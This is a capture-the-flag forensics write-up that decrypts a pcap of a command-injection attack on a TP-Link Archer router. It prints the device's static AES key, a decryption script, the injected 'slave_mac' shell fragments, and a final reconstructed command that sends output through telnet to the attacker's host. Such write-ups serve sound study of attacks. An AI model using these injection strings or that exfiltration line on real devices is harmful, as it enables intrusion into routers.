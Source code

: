 # AC1750
_Category: forensics_

## Description
> My router is weird, can you help me find the problem?
>
> ac1750-452ca8a9038502712d30c628d3444e5a22894611f1286b7a818203bdf838b434.tar.gz
>
> Author: Jeffxx
## Solution
We were given a pcap file of the traffic between a router (192.168.0.1) and an attacker (192.168.0.105). We can see towards the end of the pcap file that the router returned a directory listing to the attacker.

![dir_list](dir_list.png)

Searching about the challenge name we came across this article https://www.thezdi.com/blog/2020/4/6/exploiting-the-tp-link-archer-c7-at-pwn2own-tokyo that detailed a command injection vulnerability in this specific router (TP-Link Archer A7). The post also specified that the UDP packets are encrypted in AES-CBC with a static key and IV. Also, we also know from the blog post that it's only using half the key (128-bit), thus we have the following key and IV.

```
key: TPONEMESH_Kf!xn?
IV: 1234567890abcdef
```

Since we were only given the pcap file, this indicated that the flag must be in it. Therefore, we proceed to decrypting the UDP packets in the traffic dump. Despite the gibberish at the beginning, we can still see some valid strings. More specifically, we can see the attribute to `slave_mac` contained some commands, in this case `;echo >f;`.

![udp_decrypt](udp_decrypt.png)



If we decrypt another packet, we can see different commands executed in the same field.

![udp_decrypt2](udp_decrypt2.png)

Therefore, it is pretty clear now that we have to decrypt all the UDP packets. To do this, one of our team member suggested scapy. The script looks like

```python
from scapy.all import *
from Crypto.Cipher import AES

cipher = AES.new("TPONEMESH_Kf!xn?", AES.MODE_CBC, "1234567890abcdef")

packets = rdpcap('ac1750.pcapng')

# iterate through every packet
for p in packets:
    if UDP in p:
        try:
            # We skip the first 16 bytes to properly decrypt the packet
            c = raw(p.load)[16:]
            try:
                d = str(cipher.decrypt(c))
                tmp = d.split(',')[3]
                # print(tmp)
                if 'printf' in tmp:
                    print(tmp[27], end="")
            except:
                pass
        except:
            pass
```
If we only print `tmp`, we'll see something like

```sh
☁  ac1750  python3 test.py
 "slave_mac": "\';echo>f;\'"
 "slave_mac": "\';printf \'(\'>>f;\'"
 "slave_mac": "\';printf \'l\'>>f;\'"
 "slave_mac": "\';printf \'s\'>>f;\'"
 "slave_mac": "\';printf \' \'>>f;\'"
 "slave_mac": "\';printf \'-\'>>f;\'"
 "slave_mac": "\';printf \'l\'>>f;\'"
 "slave_mac": "\';printf \'&\'>>f;\'"
 "slave_mac": "\';printf \'&\'>>f;\'"
 "slave_mac": "\';printf \'e\'>>f;\'"
 "slave_mac": "\';printf \'c\'>>f;\'"
 "slave_mac": "\';printf \'h\'>>f;\'"
 "slave_mac": "\';printf \'o\'>>f;\'"
 "slave_mac": "\';printf \' \'>>f;\'"
 "slave_mac": "\';printf \'h\'>>f;\'"
 "slave_mac": "\';printf \'i\'>>f;\'"
 "slave_mac": "\';printf \'t\'>>f;\'"
 "slave_mac": "\';printf \'c\'>>f;\'"
 "slave_mac": "\';printf \'o\'>>f;\'"
 "slave_mac": "\';printf \'n\'>>f;\'"
 "slave_mac": "\';printf \'{\'>>f;\'"
"error_msg":"Internal Error!"}\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00'
 "slave_mac": "\';printf \'W\'>>f;\'"
 "slave_mac": "\';printf \'h\'>>f;\'"
 "slave_mac": "\';printf \'y\'>>f;\'"
 "slave_mac": "\';printf \'_\'>>f;\'"
 "slave_mac": "\';printf \'c\'>>f;\'"
 "slave_mac": "\';printf \'a\'>>f;\'"
```
Finally, if we extract all the characters printed and combine them, we get the flag.

```sh
(ls -l&&echo hitcon{Why_can_one_place_be_injected_twice}>fag&&ls -l)|telnet 192.168.0.105 4321%
```
